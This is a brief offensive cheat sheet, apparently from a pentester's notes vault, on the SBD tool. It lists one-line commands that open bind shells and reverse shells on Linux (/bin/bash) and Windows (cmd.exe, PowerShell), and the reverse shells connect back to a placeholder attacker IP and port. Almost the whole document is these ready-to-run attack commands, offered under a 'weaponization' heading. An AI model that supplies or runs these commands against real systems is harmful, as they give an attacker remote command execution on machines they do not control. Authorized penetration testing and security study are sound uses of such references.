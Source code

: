 # SBD

## 01 - Linux

### 1.1 - Bind Shell

```
$ sbd -lvnp <target_PORT> -e /bin/bash
```

### 1.2 - Reverse Shell

```
$ sbd <attacker_IP> <attacker_PORT> -e /bin/bash
```

## 02 - Windows

### 2.1 - Bind Shell

```
C:\> sbd -lvnp <target_PORT> -e cmd.exe

C:\> sbd -lvnp <target_PORT> -e powershell.exe
```

### 2.2 - Reverse Shell

```
C:\> sbd <attacker_IP> <attacker_PORT> -e cmd.exe

C:\> sbd <attacker_IP> <attacker_PORT> -e powershell.exe
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Shell Handler/Cross Platform/Manual/SBD|Shell Handler: SBD]]